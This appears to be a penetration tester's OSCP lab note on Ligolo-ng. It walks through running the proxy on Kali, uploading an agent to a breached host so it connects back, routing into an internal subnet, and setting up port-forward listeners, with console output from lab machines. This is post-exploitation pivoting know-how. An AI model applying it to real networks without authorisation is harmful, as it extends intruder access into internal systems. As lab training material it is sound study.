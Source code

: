 public:: true

- ```
      __    _             __                                                                                                                                                  
     / /   (_)___ _____  / /___        ____  ____ _                                                                                                                           
    / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/                                                                                                                           
   / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                                                                                                            
  /_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                                                                                                             
          /____/                          /____/                                                                                                                              
  
  Made in France ♥ by @Nicocha30!
  ```
  An advanced, yet simple, tunneling/pivoting tool that uses a TUN interface.
- Download Ligolo-ng artifacts from the [GH release page](https://github.com/nicocha30/ligolo-ng/releases)
	- Download the proxy *(AKA server)* to run on Kali.
	- Download the agent *(AKA client)* for the target pivoting machine. Choose the correct platform/architecture.
- Server configuration
	- First we need to create a dedicated TUN interface.
	  ```bash
	  sudo ip tuntap add user crazybyte mode tun ligolo
	  sudo ip link set ligolo up
	  ```
	  *This requires privileged capabilities to create the tun interface. Since it's almost always done on Kali that's not an issue.*
	- Start the server
	  ```bash
	  ./proxy -selfcert
	  ```
	- The by default it starts listening on all interfaces on port `11601`. This can be changed via the the `-laddr` option.
	  ```bash
	  ./proxy -selfcert -laddr 192.168.45.183:11601
	  ```
- Client configuration
	- Upload the agent to the target machine
	- Start the agent
	  *The agent can ran from unprivileged users on any supported platform.*
		- On Linux
		  ```bash
		  ./agent -ignore-cert -connect 192.168.45.183:11601
		  ```
		- On Windows
		  ```powershell
		  .\agent.exe -ignore-cert -connect 192.168.45.183:11601
		  ```
	- If everything went fine you should see the agent joining on the ligolo-ng server console
	  ```
	  ┌──(crazybyte㉿kali)-[~/OSCP/Labs/MEDTECH]
	  └─$ ./proxy -selfcert -laddr 192.168.45.183:11601
	  WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
	  INFO[0000] Listening on 192.168.45.183:11601             
	      __    _             __                                                                          
	     / /   (_)___ _____  / /___        ____  ____ _
	    / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
	   / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                                    
	  /_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                                     
	          /____/                          /____/                                                      
	                                                                                                      
	  Made in France ♥ by @Nicocha30!                                                                     
	                                                                                                      
	  ligolo-ng » INFO[0605] Agent joined.                                 name="NT AUTHORITY\\SYSTEM@WEB02" remote="192.168.212.121:52145"
	  ligolo-ng » 
	  ```
- Start tunnelling from Kali through the client
	- Lets consider that we got access to `192.168.212.121` *(our target machine)* and we successfully deployed our ligolo-ng client there. We then realize that the breached machine has an additional network interface which provides access to an internal network on the segment `172.16.212.0/24`.
	  Our Kali (attacker machine) has no access to the new discovered network, so we can configure `192.168.212.121` to act as proxy for us with the ligolo-ng agent.
		- Lets first `start` the tunnel between our new joined agent and the proxy
		  ```
		  ligolo-ng » INFO[3245] Agent joined.                                 name="NT AUTHORITY\\SYSTEM@WEB02" remote="192.168.212.121:52154"
		  ligolo-ng » session
		  ? Specify a session : 2 - NT AUTHORITY\SYSTEM@WEB02 - 192.168.212.121:52154
		  [Agent : NT AUTHORITY\SYSTEM@WEB02] » ifconfig
		  ┌───────────────────────────────────────────────┐
		  │ Interface 0                                   │
		  ├──────────────┬────────────────────────────────┤
		  │ Name         │ Ethernet0                      │
		  │ Hardware MAC │ 00:50:56:9e:1e:11              │
		  │ MTU          │ 1500                           │
		  │ Flags        │ up|broadcast|multicast|running │
		  │ IPv4 Address │ 192.168.212.121/24             │
		  └──────────────┴────────────────────────────────┘
		  ┌───────────────────────────────────────────────┐
		  │ Interface 1                                   │
		  ├──────────────┬────────────────────────────────┤
		  │ Name         │ Ethernet1                      │
		  │ Hardware MAC │ 00:50:56:9e:ab:72              │
		  │ MTU          │ 1500                           │
		  │ Flags        │ up|broadcast|multicast|running │
		  │ IPv4 Address │ 172.16.212.254/24              │
		  └──────────────┴────────────────────────────────┘
		  [Agent : NT AUTHORITY\SYSTEM@WEB02] » start
		  [Agent : NT AUTHORITY\SYSTEM@WEB02] » INFO[3263] Starting tunnel to NT AUTHORITY\SYSTEM@WEB02 
		  ```
		- Now we just need to instruct our Kali that it can reach `172.16.212.0/24` via the `ligolo` tun interface, by adding a dedicated route.
		  id:: 655732a5-b8af-4b92-b83d-83506e81d6a7
		  ```bash
		  sudo ip route add 172.16.212.0/24 dev ligolo
		  ```
	- Forward port rules
		- If you want to expose one of your services to the internal network that an agent is pivoting to, then you can instruct the agent to listen to a specific port and, because it can reach back to you, redirect any traffic it gets to your machine (Kali) on a specific port.
			- First you need to enter the agent session in your Ligolo-ng TUI and check if there's any active forwarding rule
			  logseq.order-list-type:: number
			  ```bash
			  ligolo-ng » session
			  ? Specify a session : 1 - #1 - MS01\Mary.Williams@MS01 - 192.168.231.141:56848
			  [Agent : MS01\Mary.Williams@MS01] » listener_list 
			  ┌───────────────────────────────────────────────────────────────────────┐
			  │ Active listeners                                                      │
			  ├───┬───────┬─────────┬────────────────────────┬────────────────────────┤
			  │ # │ AGENT │ NETWORK │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
			  ├───┼───────┼─────────┼────────────────────────┼────────────────────────┤
			  └───┴───────┴─────────┴────────────────────────┴────────────────────────┘
			  ```
			- You can now configure a listener on the agent and instruct it to redirect all the traffic to your machine.
			  logseq.order-list-type:: number
			  ```bash
			  listener_add --addr 0.0.0.0:8001 --to 127.0.0.1:8000 --tcp
			  ```
				- In this example we told the agent to listen on any interface on port `8001` and redirect all the traffic on that port to our Kali machine on port `8000`.
				- If we are hosting a web-server on port `8000` in Kali, we can now reach from the machines in the intranet making them communicate via `<internal_agent_IP>:8001`
			- If we now list active listener again for that agent we would see something like the following
			  logseq.order-list-type:: number
			  ```bash
			  [Agent : MS01\Mary.Williams@MS01] » listener_list
			  ┌──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐
			  │ Active listeners                                                                                                     │
			  ├───┬──────────────────────────────────────────────────────┬─────────┬────────────────────────┬────────────────────────┤
			  │ # │ AGENT                                                │ NETWORK │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
			  ├───┼──────────────────────────────────────────────────────┼─────────┼────────────────────────┼────────────────────────┤
			  │ 0 │ #1 - MS01\Mary.Williams@MS01 - 192.168.231.141:56848 │ tcp     │ 0.0.0.0:8001           │ 127.0.0.1:8000         │
			  └───┴──────────────────────────────────────────────────────┴─────────┴────────────────────────┴────────────────────────┘
			  
			  ```
	- Forward Local (AKA Agent) Ports
		- If you need to access the local ports of the currently connected agent, there's a **magic IP** hardcoded in Ligolo-ng: `240.0.0.1` *(this IP address is part of an unused IPv4 subnet)*.
		  If you query this IP address, Ligolo-ng will automatically redirect traffic to the agent's local IP address (127.0.0.1).
		- You first need to add the following route
		  ```bash
		  sudo ip route add 240.0.0.1/32 dev ligolo
		  ```
- Limitation
  #+BEGIN_CAUTION
  Please consider the following tool limitation while interacting with ligolo-ng!
  #+END_CAUTION
	- Because the agent is running without privileges, **it's not possible to forward raw packets**. When you perform a NMAP SYN-SCAN, a TCP connect() is performed on the agent.
		- When using nmap, you should use `--unprivileged` or `-PE` to avoid false positives.
	- Supported protocols/packets
		- TCP
		- UDP
		- ICMP (echo requests)